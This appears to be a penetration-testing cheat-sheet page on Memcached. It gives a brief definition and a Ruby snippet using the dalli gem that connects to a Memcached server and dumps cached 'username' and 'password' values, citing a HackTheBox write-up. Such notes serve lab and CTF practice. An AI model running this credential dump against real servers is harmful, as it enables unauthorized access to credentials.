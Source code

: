 # Memcached

> Memcached (pronounced variously mem-cash-dee or mem-cashed) is a general-purpose distributed memory-caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read.

Ref. [Wikipedia](https://en.wikipedia.org/wiki/Memcached)

## Client

### With dalli

Gem: [dalli](https://rubygems.org/gems/dalli)

Dump passwords credentials from Memcached:

```ruby
require 'dalli'

options = { username: 'usertest', password: 'passwordtest' }
dc = Dalli::Client.new('example.org:11211', options)

usernames = dc.get('username')
puts "Usernames:\n#{usernames}"

passwords = dc.get('password')
puts "\nPasswords:\n#{passwords}"
```

Ref. [Rawsec - Dyplesher - Write-up - HackTheBox](https://blog.raw.pm/en/HackTheBox-Dyplesher-write-up/#memcache-exploitation)
